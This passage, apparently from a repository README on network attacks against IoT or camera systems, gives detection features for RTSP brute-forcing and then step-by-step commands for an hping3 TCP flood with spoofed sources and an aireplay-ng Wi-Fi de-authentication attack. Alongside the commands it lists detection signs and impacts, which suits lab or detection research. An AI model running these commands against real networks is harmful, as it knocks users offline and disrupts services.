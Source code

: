 #### Detection Features
- Repeated `401 Unauthorized` responses in RTSP logs.
- Unusual login attempts from unknown IP addresses.
- Increased authentication failure rate in a short time.

#### Real-World Impact
- **System**: Unauthorized access to live video streams.
- **User**: Privacy invasion, potential surveillance exposure.


### 3. DDoS (TCP Flood)
#### What is it?
Overwhelms a target with a flood of TCP packets, leading to denial of service.

#### Tools and Hardware
- **Hardware**: Raspberry Pi or laptop.
- **Software**: hping3.

#### How to Implement
1. Install hping3:
   ```bash
   sudo apt install hping3
   ```
2. Launch the attack:
   ```bash
   sudo hping3 [Target_IP] --flood --rand-source --data 10000
   ```

#### Detection Features
- High volume of SYN packets.

#### Real-World Impact
- **System**: Network congestion.
- **User**: Inability to access services.


### 4. De-authentication Attack
#### What is it?
This attack sends de-authentication packets to disconnect devices from a network.

#### Tools and Hardware
- **Hardware**: Raspberry Pi 4, Alfa adapter (AWUS036ACU).
- **Software**: Kali Linux, Aireplay-ng.

#### How to Implement
1. Install Aircrack-ng:
   ```bash
   sudo apt install aircrack-ng
   ```
2. Put the Wi-Fi adapter into monitor mode:
   ```bash
   sudo ip link set wlan1 down
   sudo iwconfig wlan1 mode monitor
   sudo ip link set wlan1 up
   ```
3. Execute the attack:
   ```bash
   aireplay-ng --deauth 10 -a [BSSID] -c [Target_MAC] wlan1
   ```
   Replace `[BSSID]` and `[Target_MAC]` with the respective values.
